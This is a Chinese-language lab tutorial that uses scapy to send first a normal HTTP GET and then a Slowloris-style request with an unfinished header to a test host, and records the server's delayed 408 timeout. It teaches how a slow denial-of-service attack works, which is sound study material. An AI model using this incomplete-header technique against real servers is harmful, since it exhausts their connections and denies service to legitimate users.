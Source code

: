 # 构造Slowloris数据包

> - 根据`slowloris`原理，构造一个数据包，模拟`slowloris`攻击。
> 
> - 使用工具scapy进行TCP连接，并构造`HTTP GET`数据包。
> 
> - 请求页面为`http://khdxs7.test`，页面内容只有`KHDXS7`这6个字符。

## 一、构造正常请求数据包

- 打开程序`scapy`
  
  ```bash
  scapy
  ```

- 创建一个`Socket`对象
  
  ```bash
  s1=socket.socket()
  ```

- 将`Socket`连接至服务器（初始化`TCP`）
  
  ```bash
  s1.connect(("khdxs7.test",80))
  ```

- 创建`StreamSocket`对象
  
  ```bash
  ss1=StreamSocket(s1,Raw)
  ```

- 发送数据到服务器，并接收响应
  
  注意：末尾的`\r\n`用来分隔`Header`和`Data`，但此次不发送`Data`。
  
  ```bash
  ss1.sr1(Raw("GET / HTTP/1.1\r\nHost:khdxs7.test\r\n\r\n"))
  ```
  
  > 立刻接收到响应数据包。`HTTP`报文数据部分正常显示字符`KHDXS7`。

## 二、构造Slowloris数据包

- 创建一个`Socket`对象
  
  ```bash
  s2=socket.socket()
  ```

- 将`Socket`连接至服务器（初始化`TCP`）
  
  ```bash
  s2.connect(("khdxs7.test",80))
  ```

- 创建`StreamSocket`对象
  
  ```bash
  ss2=StreamSocket(s2,Raw)
  ```

- 发送数据到服务器，并接收响应
  
  注意：结尾缺少用来分隔`Header`和`Data`的`\r\n`，因此发送的`Header`并不完整。
  
  ```bash
  ss2.sr1(Raw("GET / HTTP/1.1\r\nHost:khdxs7.test\r\n"))
  ```

> 等待大约`20`秒后，收到响应数据包。报文显示`408 请求超时`信息。

---

总结：通过这三个视频，已分别在应用方面、通信过程和数据包结构方面对`Slowloris`进行了详细的解释，相信各位也对慢速`DoS`攻击之一的`Slowloris`有了更深的理解。
